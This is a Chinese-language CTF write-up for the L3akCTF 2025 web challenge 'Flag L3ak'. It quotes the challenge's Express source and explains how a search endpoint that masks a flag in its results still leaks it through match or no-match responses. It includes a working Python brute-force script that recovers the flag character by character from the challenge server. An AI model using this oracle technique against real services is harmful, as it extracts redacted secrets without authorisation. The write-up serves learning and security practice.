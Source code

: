 # L3akCTF - 2025
###### Contributed by @CXPhoenix

## Flag L3ak - Web

> [!NOTE]
> Value: 50
>
> Author p._.k
>
> Attachments: [flag_l3ak.zip](https://drive.google.com/uc?export=download&id=1fc36MFcJhjfVmeUkujgBnIfV1n0YbuRj)

### Description
What's the name of this CTF? Yk what to do 😉

### Solution

此題目很有趣，提供了原始碼，然後你就會看到他的 flag 放在 `id=2` 的 posts 陣列中。

```js
const posts = [
    {
        id: 1,
        title: "Welcome to our blog!",
        content: "This is our first post. Welcome everyone!",
        author: "admin",
        date: "2025-01-15"
    },
    {
        id: 2,
        title: "Tech Tips",
        content: "Here are some useful technology tips for beginners. Always keep your software updated!",
        author: "Some guy out there",
        date: "2025-01-20"
    },
    {
        id: 3,
        title: "Not the flag?",
        content: `Well luckily the content of the flag is hidden so here it is: ${FLAG}`,
        author: "admin",
        date: "2025-05-13"
    },
    {
        id: 4,
        title: "Real flag fr",
        content: `Forget that other flag. Here is a flag: L3AK{Bad_bl0g?}`,
        author: "L3ak Member",
        date: "2025-06-13"
    },
    {
        id: 5,
        title: "Did you know?",
        content: "This blog post site is pretty dope, right?",
        author: "???",
        date: "2025-06-20"
    },
];
```

原本想說：恩，真佛心來著 ❤️，但往下一看...

```js
app.get('/api/posts', (_, res) => {
    const publicPosts = posts.map(post => ({
        id: post.id,
        title: post.title,
        content: post.content.replace(FLAG, '*'.repeat(FLAG.length)),
        author: post.author,
        date: post.date
    }));
    
    res.json({
        posts: publicPosts,
        total: publicPosts.length
    });
});
```

果然這世界不是憨人想的這麼簡單... ｡ﾟヽ(ﾟ´Д`)ﾉﾟ｡

他的 FLAG 會先進行取代，最後才輸出。

不過，也沒有灰心，因為往上一 🐈 ，就看到了 search 功能：

```js
app.post('/api/search', (req, res) => {
    const { query } = req.body;
    
    if (!query || typeof query !== 'string' || query.length !== 3) {
        return res.status(400).json({ 
            error: 'Query must be 3 characters.',
        });
    }

    const matchingPosts = posts
        .filter(post => 
            post.title.includes(query) ||
            post.content.includes(query) ||
            post.author.includes(query)
        )
        .map(post => ({
            ...post,
            content: post.content.replace(FLAG, '*'.repeat(FLAG.length))
    }));

    res.json({
        results: matchingPosts,
        count: matchingPosts.length,
        query: query
    });
});
```

這段很有趣，因為他並沒有擋住搜尋 FLAG ，而是只是擋輸出結果，

這樣擋不住「近似法」的攻擊。

因此判定為妥妥的 Blind 攻擊。但這因為不是 SQL，所以就叫他 `Substring-based Oracle` 吧 ξ( ✿＞◡❛)▄︻▇▇〓▄︻┻┳═一

因此寫了這段 Code：

```python
import requests
import string
from tqdm import tqdm
from colorist import Color, Effect

TARGET = "http://34.134.162.213:17000/api/search"
FLAG_LEN = 24

flag = "L3AK{"

pointer = len(flag)-2
char_list = string.printable
while True:
    q = flag[pointer:] # lenght 理論上只有 2
    print(f"[*] Now we test with {Effect.UNDERLINE}{q}{Effect.UNDERLINE_OFF}*...")
    for char in tqdm(char_list):
        resp = requests.post(TARGET, json={"query": q+char})
        data = resp.json()
        targ = [d for d in data.get('results', []) if d.get('id') == 3]
        if targ:
            print(f"{Color.GREEN}[+] find flag char '{Effect.BOLD}{char}{Effect.BOLD_OFF}' !{Color.OFF}")
            flag += char
            print(f"[*] flag is {flag}")
            pointer += 1
            break
    else:
        print(f"{Color.RED}[-] Can't find from {Effect.UNDERLINE}{char_list}{Effect.UNDERLINE_OFF}...{Color.OFF}")
        print(f"{Color.RED}[*] Stopping...{Color.OFF}")
        break
    if char == "}":
        print(f"{Color.GREEN}[+] Found full flag!{Color.OFF}")
        break
print()
print(f"[*] result is {Effect.UNDERLINE}{flag}{Effect.UNDERLINE_OFF}")
```

---

## Referenece

* [Blind SQL Injection](https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/#blind-injection)